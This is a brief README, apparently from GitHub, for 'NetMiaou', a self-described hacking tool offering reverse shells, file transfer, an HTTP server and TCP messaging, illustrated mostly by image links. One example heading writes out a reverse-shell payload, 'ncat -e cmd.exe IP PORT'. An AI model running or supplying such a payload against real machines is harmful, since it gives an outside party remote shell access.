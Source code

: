 # **NetMiaou**

***NetMiaou is an crossplatform hacking tool that can do reverse shells, send files, create an http server or send and receive tcp packet*** 

## **USAGE**
![help image](images/help.png)

## **EXAMPLE**

### simple reverse shell using payload ncat -e cmd.exe IP PORT
**you can use the --show-payloads flag to see all available payloads**
![help image](images/reverseShellExample.png)

### sending files using NetMiaou
![sending files images](images/sendFile.png)

### simple http server
![http server](images/http.png)

### sending text in tcp packets
![sending simple socket](images/tcpMessage.png)